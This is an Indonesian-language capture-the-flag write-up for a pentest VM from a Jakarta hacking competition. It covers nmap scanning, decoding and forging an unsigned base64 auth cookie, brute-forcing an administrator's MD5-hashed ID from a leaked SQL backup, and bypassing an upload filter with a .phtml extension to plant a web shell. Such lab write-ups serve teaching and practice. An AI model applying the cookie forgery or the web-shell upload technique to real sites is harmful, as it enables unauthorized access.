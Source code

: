 # Write UP VM Pentest Semi Final Jakarta Hacking Competition.

Berikut ini setting network pada vbox yang diberikan.

![](/JhackVM/images/vbox_net.png)


Berikut tampilan VMnya jika berhasil di import.

![](/JhackVM/images/tampilan1.png)

Dikarenakan kita `Tidak` Diberikan Credential apapun. Maka kita pertama lakukan scanning. Dengan langkah langkah sebagai Berikut.

 - Temukan IP Dari Sever
 - Lakukan Recon pada IP Server

Untuk menemukan IP Asli dari Vboxnya. Kita lakukan `ipconfig` Pada CMD Windows.

![](/JhackVM/images/net.png)

Terlihat disitu IP Dari VBoxnya adalah `192.168.56.1` Tapi itu belum IP Asli dari Server yang kita Import, Maka lakukan scanning dengan `nmap` untuk mendapatkan IP dari Server.

Oke setelah run `nmap` 

```
nmap -sS  192.168.56.0/24
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-10 16:04 SE Asia Standard Time
Nmap scan report for 192.168.56.100
Host is up (0.00s latency).
All 1000 scanned ports on 192.168.56.100 are filtered
MAC Address: 08:00:27:E2:1B:E7 (Oracle VirtualBox virtual NIC)

Nmap scan report for 192.168.56.101
Host is up (0.00056s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
80/tcp   open  http
9000/tcp open  http
MAC Address: 08:00:27:65:1C:34 (Oracle VirtualBox virtual NIC)
```

Kita mendapatkan IP asli dari Server adalah. `192.168.56.101` Dan disitu informasi dari IP sudah didapatkan secara minumum. Ada 2 port yang terbuka.

 - 80
 - 9000

Ini adalah preview port 80 

![](/JhackVM/images/web1.png)

Setelah ditelusuri sangat jauh. Ternyata web itu memang hanya template HTML biasa tanpa ada apa apanya. Bisa disebut `Rabbit Hole` Jebakan saja.

Oke Kita buka 9000

![](/JhackVM/images/web2.png)

Seperti itulah tampilanya, Saya sangat tertarik pada page ini. Setelah dicoba coba, Ternyata Loginya tidak bisa dibypass, Maka dilanjutkan dengan register sebuah akun.


![](/JhackVM/images/regis.png)


Oke saya regis dengan credential `Nikko:123`

Lalu saya login dan seperti inilah tampilan web setelah login.

![](/JhackVM/images/home.png)

Saat saya tekan `Flag Here` Ternyata tidak ada apa apa. Lagi lagi `Rabbit Hole` Lalu saya move ke Menu Gallery.

![](/JhackVM/images/g1.png)

![](/JhackVM/images/g2.png)

Seperti itulah tampilan pada Tab Gallery, Disitu terlihat ada sebuah Page Administrator, Tapi saat kami klik kita dikembalikan ke page login.

Saya nyalakan burp untuk mulai melakukan Analisa.

Ada suatu hal yang sangat menarik pada saat kita melakukan request pada `admin.php` 

![](/JhackVM/images/co1.png)


Disitu ada sebuah cookie `auth` yang berisi.

```
eyJpZCI6Ijg1MCIsInVzZXIiOiJOaWtrbyIsInJvbGUiOiJ1c2VyIiwic2lnIjoiVG1scmEyODROVEIxYzJWeSJ9
```

Saat didecode 

```
$ echo -en "eyJpZCI6Ijg1MCIsInVzZXIiOiJOaWtrbyIsInJvbGUiOiJ1c2VyIiwic2lnIjoiVG1scmEyODROVEIxYzJWeSJ9" | base64 -d
{"id":"850","user":"Nikko","role":"user","sig":"Tmlra284NTB1c2Vy"}
```

Setelah di decode base64nya ternyata berbentuk JSON, Pada `sig` terlihat seperti base64 mari decode lagi.

```
$ echo "Tmlra284NTB1c2Vy" | base64 -d
Nikko850user
```

Pada JSON Tersebut bisa dipetakan sebagai berikut.

 - index `id` Berisi id user kita
 - index `user` Berisi username yang kita daftarkan
 - index `role` Set user kita sebagai `user`
 - index `sig` Adalah Base64 dari `user+id+role`


Karena authentikasi pada website ini mengunakan cookie, Maka kita sebenarnya Bebas saya untuk menganti cookie tersebut menjadi cookie login milik orang lain. Namun target kita adalah login sebagai user yang dapat mengakses `admin.php` Dikarenakan kita kekurangan informasi, Kita lanjutkan scanning website dengan port 9000 ini.  

Singkat cerita saya mendapatkan sebuah `robots.txt` Berisi `backup.sql` 

Isi dari backup.sql ini adalah.

```
#For ID use MD5
#For pass sig and role use password_hash 
#Read This admin!

INSERT INTO `user` (`id`, `user`, `pass`, `sig`, `role`) VALUES
('4b6538a44a1dfdc2b83477cd76dee98e', 'Administrator', '$2y$10$4tOngzLdZnNI6SpGJcMLduBSGarzzpLE7/0ayYvIMmHVLXHw.H/gC', '$2y$10$r6aQ.arK6VymipzFBR768u9RT5Pj4Jpmm5EZ2ohDHIcz79FT.bgeS', '$2y$10$Z16BDCKdQLJ/pJY9z.UGSeaW0gjJkGslNGqpxBiGIqsSpSgQGZL36');

COMMIT;
```

Disitu ada sebuah data yang di inputkan. Tapi terlihat hampir semua datanya terenkripsi, Hanya `user` Saja yang tidak yaitu `Administrator` Namun ada hal menarik, ID dari `user` Administrator ini di enkripsi mengunakan MD5. Kita bisa melakukan Bruteforce untuk mengetahui ID Administrator ini. Terlihat pada halaman awal tadi Website ini hanya menyediakan 1000 user, Maka kita hanya perlu membruteforce dari id(1-1001)

Ini script yang saya gunakan.

```
from hashlib import md5

for i in range(1,1001):
	if(md5(str(i)).hexdigest() == "4b6538a44a1dfdc2b83477cd76dee98e"):
		print(i)
		exit(0)
```

Dan saat dijalankan

```
$ python brute.py
945
```

Nah sudah diketahui bahwah `id` Dari Administrator adalah `945` Maka dari itu kita tinggal membuild ulang JSON nya.

```
{"id":"945","user":"Administrator","role":"admin","sig":"QWRtaW5pc3RyYXRvcjk0NWFkbWlu"}
```

role dikarenakan saat registrasi ada radio button `admin` yang disabled maka kita isi dari sini. Dan isi dari `sig` adalah base64 dari `Administrator945admin`

```
$ echo -en  "Administrator945admin" | base64 
QWRtaW5pc3RyYXRvcjk0NWFkbWlu
```

Maka full JSON admin adalah seperti ini

`eyJpZCI6Ijk0NSIsInVzZXIiOiJBZG1pbmlzdHJhdG9yIiwicm9sZSI6ImFkbWluIiwic2lnIjoiUVdSdGFXNXBjM1J5WVhSdmNqazBOV0ZrYldsdSJ9`

Tinggal kita set pada burp dan ganti cookie authnya.

![](/JhackVM/images/admin.png)


Okay kita sudah masuk as Admin. Disitu ada sebuah form upload. Yang digunakan untuk upload ke Gallery tadi. Setelah bersusah payah bypassnya. Ternyata kita harus mengunkan extensi `phtml` untuk dapat membypass validasinya.


Caranya kita rename dulu shell.php kita menjadi shell.php.jpg agar kita tidak perlu set content typenya dulu.

![](/JhackVM/images/up.png)

Oke shell sudah terupload dan kita tinggal akses ke ip:9000/upload/shell.phtml


![](/JhackVM/images/done.png)


Sekian Write Up untuk kali ini, Untuk privilage escalation akan ditulis oleh `Reyvand` Pada blog pribadinya. Terima Kasih!
